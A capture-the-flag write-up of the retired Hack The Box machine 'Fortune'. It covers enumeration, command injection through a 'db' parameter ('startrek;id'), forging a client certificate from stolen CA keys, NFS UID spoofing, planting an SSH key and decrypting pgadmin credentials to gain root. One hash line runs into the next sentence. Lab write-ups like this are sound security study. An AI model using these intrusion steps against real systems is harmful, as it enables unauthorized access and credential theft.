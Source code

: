 # Fortune

This is the write-up for the box Fortune that got retired at the 3rd August 2019.
My IP address was 10.10.15.241 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.127    fortune.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/fortune.nmap 10.10.10.127
```

We get following results:
```markdown
PORT    STATE SERVICE    VERSION
22/tcp  open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp  open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

## Checking HTTP (Port 80)

This is a page that gets you different fortunes whenever you reload it, so there must be some server-side things that happen.
Send it to Burpsuite and try some characters in the _db_ parameter, to see how the page reacts.
As special characters let it error out, we try some fuzzing with **WFUZZ**.

```markdown
wfuzz --hh 293 -w /usr/share/seclists/Fuzzing/special-chars.txt -d db=startrekFUZZ http://10.10.10.127/select
```

This gets us the following characters: &, +, \, ;
The _ampersand_ and the _plus_ are uninteresting for us and the _backslash_ is for escaping characters.
So the only thing that is interesting is the _semicolon_.

If we put a command after the value in the parameter _db_ like this:

```markdown
db=startrek;id
```

Then the command gets executed. This means we try to get a reverse shell with **Netcat**.
It is installed on the machine but doesn't work. There is probably a firewall in the way because pinging works fine.
We are writing our own script to get a reverse shell, that is in this folder named **cmd-inject.py**

Now we have pseudo reverse shell as the user \_fortune.

### Pseudo reverse shell on box
Interesting files on the box:
- /etc/authpf/authpf.rules
  - This are the rules for BSDs Firewall _Packet Filter_
- /var/appsrv/fortune/fortuned.py
  - Flask App on the website
  
We are looking for the signing keys to check the HTTPS page:
```markdown
find / -name *.pem
```

And we find the following keys:
- /home/bob/ca/intermediate/certs/intermediate.cert.pem
- /home/bob/ca/intermediate/private/intermediate.key.pem

## Checking HTTPS (443)

Checking the certificate:
```markdown
openssl s_client -connect 10.10.10.127:443
```

We get potential users named _charlie_ and _bob_

### Creating our own key

Putting contents of intermediate.cert.pem into _intermediate.cert_.
Putting contents of intermediate.key.pem into _intermediate.key_.

```markdown
openssl genrsa -out kyuuji.key 2048
openssl req -new -key kyuuji.key -out kyuuji.csr
openssl x509 -req -in kyuuji.csr -CA intermediate.cert -CAkey intermediate.key -CAcreateserial -out kyuuji.pem -days 1024 -sha256
```

Formatting it into PKCS12 format for Firefox:
```markdown
openssl pkcs12 -export -out kyuuji.pfx -inkey kyuuji.key -in kyuuji.pem -certfile intermediate.cert
```

Now import the .pfx file into the Firefox certificates and the HTTPS site works.
It says:
> You will need to use the local authpf service to obtain elevated network access. If you do not already have the appropriate SSH key pair, then you will need to generate one and configure your local system appropriately to proceed.

The word _generate_ sends us to the path /generate where we can generate a SSH key and copy it into a new file.

After checking the /etc/passwd with out pseudo-shell we can try all possible users and this one works:

```markdown
ssh -i fortune.ssh nfsuser@10.10.10.127
```

But instead of a shell we get this:
> Hello nfsuser. You are authenticated from host "10.10.15.241"

## Next Scan

We do a new nmap scan to see if new ports are open when our SSH connection stays open.

```markdown
nmap 10.10.10.127
```

We get 2 more open ports now:
- Port 8081 as blackice-icecap
- Port 2049 as nfs

### Checking NFS

```markdown
showmount -e 10.10.10.127
```
This command is included in the _nfs-common_ package.

The out we get is: /home (everyone).
That means we can mount this nfs share.

```markdown
mount -t nfs -o vers=2 10.10.10.127:/home /mnt
```

In our /mnt folder we can see the home folders of charlie, bob and nfsuser, so let's check their files.
The user charlie has the UID of one of my users (user01) on my machine, so if I switch to that user I can access his files.

```markdown
su - user01
cat charlie/user.txt
cat mbox
```

**We now have user.txt.**

The mbox file is a mail file and says the following:
> Thanks for setting-up pgadmin4 for me. Seems to work great so far.
> BTW: I set the dba password to the same as root. I hope you don't mind.

We now know that there is a Postgres database that has the same password as root and bob can read it.

## Privilege Escalation

Creating our own key to escalate privileges to charlie.

```markdown
ssh-keygen -f charlie.ssh
(Copy content of charlie.ssh.pub into /mnt/charlie/.ssh/authorized_keys)
chmod 600 charlie.ssh
```

Logging in with charlies SSH key:
```markdown
ssh -i charlie.ssh charlie@10.10.10.127
```

We escalated our privileges to charlie and have a SSH session open!

### Looking for the Postgres database

We should now read the contents of the postgres database where the password for root is in:

```markdown
cd /var/appsrv/pgadmin4
sqlite3 pgadmin4.db
.dump
```

This will give us the hash of the password but if you want to search more granular:

```markdown
sqlite3 pgadmin4.db ".schema" | grep -i Create
sqlite3 pgadmin4.db "select * from user;"
sqlite3 pgadmin4.db "select * from server;"
```

- Hash of server: utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
- Hash of bob: $pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vgExecute crypto.py and we get the decrypted password of bob. If we now su - we are root on the machine.

#### Find out what those hashes are

If we read the file _/var/appsrv/pgadmin4/pgadmin4.ini_ we see that the source code of the application is in the folder _/usr/local/pgadmin4/pgadmin4-3.4/web/_

So lets go there and look for the word _decrypt_:

```markdown
grep -iRl decrypt .
```

The file _./pgadmin/utils/crypto.py_ looks very interesting and is the one that decrypts the hashes.
I copy the contents of the file on my machine and put the following line at the end of it:

```markdown
print decrypt("utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz","$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg")
```

Execute crypto.py and we get the decrypted password of bob.
If we now _su -_ we are root on the machine.

